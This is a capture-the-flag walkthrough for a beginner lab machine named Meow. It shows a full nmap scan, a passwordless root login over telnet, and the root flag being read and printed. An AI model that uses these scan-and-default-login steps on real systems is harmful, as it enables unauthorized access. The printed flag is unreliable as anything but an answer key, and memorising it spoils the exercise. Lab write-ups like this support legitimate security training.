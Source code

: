 ```yaml
---
Title: Meow
Author: sl0th0x87
Date: 2022/01/10
Tags: Linux, Network, Account Missconfiguration
Tools: nmap
Difficulty: very easy
---
```

# Meow

## General informations
* IP Attack Machine: 10.10.14.39
* IP Target Machine: 10.129.1.17
* Operating System: Linux

## NMAP scan

Make a portscan over all ports with service detecion\
Enable NMAP scripts and disable ping scan
```bash
sudo nmap -sV -sC -Pn -p- 10.129.1.17
```

Output:
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-10 15:51 CET
Nmap scan report for 10.129.1.17
Host is up (0.042s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 55.70 seconds
```

### Open ports
* 23/tcp open  telnet  Linux telnetd

## Telnet
```bash
telnet 10.129.1.17
```

Output:
```bash
Trying 10.129.1.17...
Connected to 10.129.1.17.
Escape character is '^]'.

 █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: root
```
Try to login with user 'root'\
Wow, we are in. Telnet with root access and no password
```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 10 Jan 2022 03:07:27 PM UTC

  System load:  0.45              Processes:             138
  Usage of /:   41.7% of 7.75GB   Users logged in:       0
  Memory usage: 4%                IPv4 address for eth0: 10.129.1.17
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Jan 10 15:06:57 UTC 2022 on pts/0
root@Meow:~# 
```

Show files in root home directory
```bash
root@Meow:~# ls -l
total 8
-rw-r--r-- 1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x 3 root root 4096 Apr 21  2021 snap
```
Get root flag
```bash
root@Meow:~# cat flag.txt
b40abdfe23665f766f9c61ecba8a4c19
```

Congratulations! You got the machine!